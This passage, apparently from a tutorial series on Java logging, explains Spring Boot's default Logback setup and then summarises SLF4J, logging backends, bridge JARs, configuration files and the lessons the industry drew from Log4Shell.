A: Spring Boot includes Logback as the default backend via the `spring-boot-starter-logging` starter, which pulls in `logback-classic`, `slf4j-api`, and `jcl-over-slf4j` (replaced by `spring-jcl` since Spring 5). The defaults are: console output, INFO level, a pattern that includes timestamp, thread, level, logger, and message. You can override individual settings in `application.properties` (via `logging.level.com.example=DEBUG`) or replace the entire configuration with `logback-spring.xml`. The `-spring` suffix triggers Spring Boot's extended Logback support, which adds profile-aware configuration via `<springProfile>` elements.

## Summary

SLF4J is the right API to code against: it is a stable facade with the parameterised message pattern that solves the eager-string-concatenation problem, the MDC for per-thread context, the Marker API for tag-based routing, and the fluent API in 2.0 for structured key-value logging. The backend choice is mostly Logback for typical applications and Log4j 2 for high-throughput systems. Bridge JARs funnel third-party logs from JCL, Log4j 1, and JUL through SLF4J so that every log line goes to one place. Logback configuration via `logback.xml` (or `logback-spring.xml` for Spring Boot profile-aware configuration) controls appenders, rolling policies, and patterns. Log4j 2 configuration via `log4j2.xml` enables async loggers via the Disruptor. The Log4Shell vulnerability was a watershed moment for the Java logging ecosystem and taught the industry to avoid string interpolation of untrusted data, to pin and update dependencies rapidly, and to scan for vulnerable transitive dependencies. The next note builds on this foundation with structured logging, where the log message becomes a JSON document with named fields that downstream systems can search and aggregate.
